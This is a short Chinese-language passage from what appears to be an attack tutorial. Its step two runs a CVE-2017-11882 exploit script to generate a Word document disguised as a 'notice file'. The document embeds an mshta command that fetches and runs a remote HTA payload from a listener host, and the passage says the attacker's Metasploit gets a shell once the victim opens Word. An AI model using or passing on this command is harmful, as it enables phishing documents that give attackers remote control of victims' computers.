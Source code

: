 [![](assets/1701612327-25d3d350717fcb249392ee0552c8e2eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173413-ee731a70-1f04-1.png)

步骤二：生成带病毒的doc文件并伪装为通知文件

```plain
python2 Command109b_CVE-2017-11882.py -c "mshta http://192.168.126.132:8080/Uf7DGFz.hta" -o 通知文件.doc -i input.rtf
```

[![](assets/1701612327-8150432338c6711c59b17d461024cbf5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173510-108ae110-1f05-1.png)

受害人打开word，msf就会上线shell
